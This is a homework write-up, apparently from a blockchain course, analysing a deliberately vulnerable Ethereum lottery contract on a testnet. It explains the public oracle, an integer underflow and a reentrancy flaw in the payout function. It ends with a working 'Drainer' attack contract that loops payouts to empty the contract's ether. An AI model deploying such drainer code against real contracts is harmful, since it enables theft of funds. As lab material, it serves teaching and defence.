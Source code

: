 # Homework 14 - Lottery Game
## Instructions
Aim
The aim of the game is to get to the top of the leaderboard, so get as high a score as you
can, and make sure the other teams get a low score.
Playing the game
. Talk to your team mates and chose a team name
. Ensure your team has some Rinkeby ether, you will need about 0.5 ETH
If you need some ETH, go to Faucet or ask on sli.do
. You will need to have metamask installed
. Go to the game website : https://lottery.extropy.live/
5. Register your team, you need
A team name
Your wallet address
A password
To register your team, you will need to pass in some ETH.
Your team should now appear on the leader board
You can now play the game
5. Make a guess at the random number, you need to enter
Your teams address
Your guess at the random number (it is a small number < 50)
If you guess correctly you will get points, otherwise you will lose points
You will see that the contract has some ether, an additional challenge is to see if you can
drain the contract.
Contract code
These gists Lottery Oracle have the contract code
Read through the code and think how you can exploit it

## Analysis

Contract address is 0x44962eca0915Debe5B6Bb488dBE54A56D6C7935A. </br>
https://goerli.etherscan.io/address/0x44962eca0915debe5b6bb488dbe54a56d6c7935a#code
</br>
It uses an interface contract calle Oracle.sol where it gets its random number from.
```Solidity
interface IOracle {
    function getRandomNumber() external view returns (uint256);
}
```
The contract has an important guard onlyAdmins
```solidity
  modifier onlyAdmins() {
        require(admins[msg.sender], "Only admins");
        _;
    }
```
This addresses are added on the creation of the contract.
```solidity
    // Constructor - set the owner of the contract
    constructor(address _address) public {
        admins[msg.sender] = true;
        admins[0x0e11fe90bC6AA82fc316Cb58683266Ff0d005e12] = true;
        admins[0x7F65E7A5079Ed0A4469Cbd4429A616238DCb0985] = true;
        admins[0x142563a96D55A57E7003F82a05f2f1FEe420cf98] = true;
        admins[0x52faCd14353E4F9926E0cf6eeAC71bc6770267B8] = true;
        OracleAddress = _address;
		emit LogSetOracle(_address);
    }
```
### Issues
1. The oracle address is an argument of the constructor. This address allows anyone to call .getRandomNumber() from the lottery contract.
Since it is part of the constructor, it can be visualized directly on Etherscan (https://goerli.etherscan.io/address/0x44962eca0915debe5b6bb488dbe54a56d6c7935a#code) at the end of the page.
</br>

<img src="images/lottery_oracle_address.png" alt="MOracle address on constructor argument" style="width:800px;"/></br>

2. Any address being an EOA (externally owned account) or another contract can be registered as a team participant.
```solidity
    // register a team
    function registerTeam(address _walletAddress, string calldata _teamName, string calldata _password) external payable {
        // 1 gwei deposit to register a team
        require(msg.value == 1_000_000_000);
        require(registeredTeams[_walletAddress] == false, "Team already registered");
        // add team details
        teamDetails.push(Team(teamCounter, _walletAddress, _teamName, 5));
        passwords[teamCounter] = _password;
        registeredTeams[_walletAddress] = true;
        teamCounter++;
        emit LogTeamRegistered(_walletAddress, _teamName);
    }
```
3. On the makeAGuess function any address could generate a random number being registered as a team or not. Also, if they had a guess, they only get 100 points but if they had 0 points and did not guess the number, we get an underflow. This allows the team to get a number much bigger than 100 and trick the next function. This is solved on solidity versions ^0.8.0.
```solidity
    function makeAGuess(address _team, uint256 _guess) external returns (bool) {
        // Any call to this function can generate a random number
        uint256 random = IOracle(OracleAddress).getRandomNumber();
        for (uint256 i = 0; i < teamDetails.length; i++) {
            if (_team == teamDetails[i].teamAddress) {
                if (random == _guess) {
                    // give 100 points
                    teamDetails[i].points = 100;
                    emit LogTeamCorrectGuess(_team, teamDetails[i].name);
                    return true;
                } else {
                    // take away a point (!!!)
                    // Underflow is reached at this point if user has 0 points.
                    teamDetails[i].points -= 1; 
                    emit LogTeamWrongGuess(_team, _guess);
                    return false;
                }
            }
            emit LogTeamNotRegistered(_team);
        }
    }
```
4. This function allows any team to get paid if they have more than 100 points. This result was easily achived, even if you didn't guess the number due to the underflow condition. Also because the paying function is called before the state is changed, a reentrancy attack can  be done with a "team" registered smart contract.
```solidity
    // once the lottery has finished pay out the best teams
    function payoutWinningTeam(address _team) external returns (bool) {
        // if you are a winning team you get paid double the deposit (2 gwei)
        for (uint256 ii = 0; ii < teamDetails.length; ii++) {
            // any team would get more than 100 points due to the underflow.
            if (teamDetails[ii].teamAddress == _team && teamDetails[ii].points >= 100) {
                // no gas limit on value transfer call (!!!)
                (bool sent, ) = _team.call.value(2_000_000_000)("");
                if (sent) {
                // reentrancy attack possible since the state is changed after the transfer
                    teamDetails[ii].points = 0;
                    emit LogPayoutWinningTeam(_team);
                    return sent;
                }
                emit LogPayoutFailedLowBalance(_team);
                return false;
            }
        }
        emit LogPayoutFailed(_team);
    }
```
When this line is run - (bool sent, ) = _team.call.value(2_000_000_000)(""); this function is calling the "team" smart contract without any call data. That would trigger the "receive()" fallback function on the attacking contract that can loop over the payoutWinningTeam function.
</br> *Example of attack contract made by @ziad (Eth Denver student).*
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.6.0;

import "./Lottery.sol";
import "./Oracle.sol";

contract Drainer {
    Lottery lo = Lottery(0x44962eca0915Debe5B6Bb488dBE54A56D6C7935A);
    Oracle or = Oracle(0x0d186F6b68a95B3f575177b75c4144A941bFC4f3);

    // drain function is called once
    function drain() public {
        lo.makeAGuess(address(this), or.getRandomNumber());
        lo.payoutWinningTeam(address(this));
    }

    // receive() is called in a loop when the lottery smart contract makes the call without data.
    receive() external payable {
        if (gasleft() > 40_000) {
            // this start an infinite loop to cash out the lottery contract
            lo.payoutWinningTeam(address(this));
        }
    }

    function withdraw() public {
        (bool sent,) = address(0x36efd039149b9F5aF6aC75d85A8d3e9088bc7d4f).call.value(address(this).balance)("");
        require(sent);
    }
}
```